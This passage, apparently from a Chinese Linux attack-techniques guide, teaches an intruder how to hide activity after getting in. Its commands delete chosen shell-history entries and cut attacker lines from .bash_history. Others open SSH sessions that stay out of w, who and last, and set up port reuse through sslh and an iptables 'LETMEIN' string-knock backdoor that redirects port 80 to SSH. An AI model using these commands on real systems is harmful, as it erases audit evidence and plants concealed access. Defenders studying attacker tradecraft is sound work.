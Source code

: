 技巧二：从历史记录中删除指定的命令

假设历史记录中已经包含了一些你不希望记录的命令。这种情况下我们怎么办？很简单。通过下面的命令来删除：

```
history | grep "keyword"
```

输出历史记录中匹配的命令，每一条前面会有个数字。从历史记录中删除那个指定的项：

```
history -d [num]
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-2-3.png)

这种技巧是关键记录删除，或者我们可以暴力点，比如前150行是用户的正常操作记录，150以后是攻击者操作记录。我们可以只保留正常的操作，删除攻击痕迹的历史操作记录，这里，我们只保留前150行：

```
sed -i '150,$d' .bash_history
```

### 0x05 隐藏远程SSH登陆记录

隐身登录系统，不会被w、who、last等指令检测到。

```
ssh -T root@127.0.0.1 /bin/bash -i
```

不记录ssh公钥在本地.ssh目录中

```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```

### 0x06 端口复用

通过端口复用来达到隐藏端口的目的，在Linux下，如何实现端口复用呢？

第一种方式：通过SSLH在同一端口上共享SSH与HTTPS

```
 #安装SSLH
 sudo apt-get install sslh
 #配置SSLH
 编辑 SSLH 配置文件：
 sudo vi /etc/default/sslh
 1、找到下列行：Run=no  将其修改为：Run=yes
 2、修改以下行以允许 SSLH 在所有可用接口上侦听端口 443
 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
```

第二种方式：利用IPTables进行端口复用

```
# 端口复用链
iptables -t nat -N LETMEIN
# 端口复用规则
iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
# 开启开关
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
# 关闭开关
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
# let's do it
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
```
